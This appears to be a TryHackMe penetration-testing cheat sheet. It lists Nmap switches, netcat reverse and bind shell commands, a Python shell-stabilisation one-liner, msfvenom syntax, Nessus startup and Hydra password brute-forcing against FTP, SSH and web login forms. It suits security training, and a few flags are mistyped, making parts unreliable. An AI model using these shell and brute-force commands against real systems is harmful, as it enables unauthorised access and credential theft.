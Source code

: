# TryHackMe - Cheat Sheet

## NMAP (-NMAP)

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Netcat (-NC)

### Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 (-python or -python3)

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom (-msfvenom)

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra (-Hydra)

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 




